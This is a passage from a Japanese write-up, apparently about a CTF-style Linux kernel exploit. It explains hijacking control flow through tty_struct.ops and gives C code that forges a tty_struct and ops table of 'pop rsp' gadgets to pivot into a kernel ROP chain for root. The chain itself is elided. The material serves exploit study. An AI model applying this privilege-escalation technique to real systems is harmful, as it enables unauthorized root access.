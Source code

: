 うんうん、良さそう。`tty_struct.ops`も一緒に`0x5401`に書き換えたので、ちゃんと落ちてくれてますね！RIPが取れました。

## get root by kROP on `tty_struct` itself

TTYへの`ioctl()`によって、ジャンプ直後のレジスタの値は以下のようになります:

![register values after jmp-ing to ioctl](./regs.png)

`RBX, RCX, RSI`は第2引数で4byte、`RDX, R8, R12`は第3引数で8byteだけ任意に指定できます。`RDI`と`RBP`と`R14`は`tty_struct`自身を指します。stack pivotをするために、`push RXX, JMP RYY, POP RSP`のようなことをしたいのですが、`RSI`達は4byteしか指定できないため使うことはできません。
さて、みなさんも覚えておきましょう、**`tty_struct`はまじでROPしやすいです**:

```payload.c
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = ...

    assert((ulong)rop - (ulong)key_payload < 516);
```
